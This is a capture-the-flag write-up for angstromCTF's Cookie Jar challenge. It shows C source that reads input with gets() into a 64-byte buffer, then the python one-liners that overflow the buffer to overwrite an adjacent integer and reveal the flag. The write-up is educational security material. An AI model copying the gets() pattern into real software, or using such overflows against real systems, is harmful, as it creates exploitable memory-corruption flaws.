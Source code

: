 # Cookie Jar - 60 points

Note: Binary has been updated Try to break this [Cookie Jar](./cookiePublic64) that was compiled from this [source](./cookiePublic.c). Once you've pwned the binary, test it out by connecting to nc shell.angstromctf.com 1234 to get the flag.

Hint:
Look up some vulnerabilities associated with buffers.

### Solution
###### Writeup by asinggih

In order to get the flag, we need to have at least 100 cookies inside the cookie jar. However, if we input 100, it will say that we only have 0 cookies in the jar. 


```sh
❯ ./cookiePublic64 
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar: 
100
Sorry, you only had 0 cookies, try again!

```

To find a way around it, we need to look at the source code provided.

```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG "----------REDACTED----------" 


int main(int argc, char **argv){
  
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	int numCookies = 0;

	char buffer[64];

	puts("Welcome to the Cookie Jar program!\n");
	puts("In order to get the flag, you will need to have 100 cookies!\n");
	puts("So, how many cookies are there in the cookie jar: ");
	fflush(stdout);
	gets(buffer);

	if (numCookies >= 100){
		printf("Congrats, you have %d cookies!\n", numCookies);
		printf("Here's your flag: %s\n", FLAG);
	} else {
		printf("Sorry, you only had %d cookies, try again!\n",numCookies);
	}
		
	return 0;
}

```
From the source code, we can see that:

* Input is being stored inside a ```char``` array variable called ```buffer```, which can hold values up to 64 bytes. 
* The cookies are stored inside an ```int``` variable called ```numCookies```, which has a default value of ```0```. 
* We can get the <b>Flag</b> when ```numCookies >= 100``` 
* However, there's no direct relation between our input which is stored in the ```buffer``` and ```numCookies```. We need to work our way around this!

The hint suggests to find buffer overflow vulnerabilities, and I did. In our case, we can exploit buffer overflow by inserting values greater than what the allocated buffer can handle (in this case the ```buffer``` array with a size of ```64```). Buffer overflow may be used to overwrite local variable located near the vulnerable buffer on the stack. In our case, this is the ```numCookies```. 

As I have mentioned earlier, we can obtain the <b>Flag</b> when ```numCookes >= 100```. I did several attempts.

* First attempt, filling up the buffer with 65  ```b```s. No luck. This is quite weird for me, since it is already greater than 64. 
	```sh
	❯ python -c 'print ("b"*65)' | ./cookiePublic64 
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Sorry, you only had 0 cookies, try again!
	```

* I kept incrementing the numbers, and finally the cookie jar starts filling up at 73. 
	```sh
	❯ python -c 'print ("b"*73)' | ./cookiePublic64 
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Sorry, you only had 98 cookies, try again!

	```
* At 74, I managed to fill the cookie jar according to the requirements and obtain the flag.
	```sh
	❯ python -c 'print ("b"*74)' | ./cookiePublic64
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Congrats, you have 25186 cookies!
	Here's your flag: actf{eat_cookies_get_buffer} '
	```

Note: 
The reason behind 65 ```'b'```s not doing the trick might be due to not enough overflow to overwrite the ```numCookies``` variable. 73 ```'b'```s is the point where the overflow overwrites ```numCookies```, and 74 ````'b'```s fulfills the if condition. 

## Flag
>actf{eat_cookies_get_buffer}

































